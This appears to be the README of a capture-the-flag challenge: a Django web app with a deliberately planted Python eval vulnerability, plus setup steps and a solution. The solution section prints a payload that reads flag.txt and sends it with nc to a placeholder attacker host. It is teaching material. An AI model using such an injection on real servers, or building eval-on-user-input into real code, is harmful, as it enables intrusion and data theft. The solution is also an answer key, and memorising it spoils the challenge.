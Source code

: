 ## Description

My first web app, check it out! `<insert-link>`

## Documentation

A pretty simple Django Python `eval` vuln. The hard part is deducing that there may be an
`eval` present here, and also figuring out that this is a Django app. There is a comment
in one of the HTML files with leftover Django templating which serves as a hint. It teaches
participants how to think like an attacker in that the fact that the math problem
is sent over AJAX back to the server might mean it is being passed to an `eval`.

### Setup

1. `docker-compose build`
2. `docker-compose up`

Note: will have to change `ALLOWED_HOSTS` in Django and the `UWSGI_ROUTE_HOST` environment variable in
the Dockerfile once we know where this will be hosted.

Also note that since we give arbitrary code execution, the server is restarted every five minutes.
## Solution

The `problem` parameter to the endpoint `new_problem` is `eval()`ed. So one can send the following
in this parameter (and setup a listener on `<attacker-ip>` of course) to get the flag.
```python
__import__('os').popen('cat flag.txt | nc <attacker-ip> <attacker-port>')
```

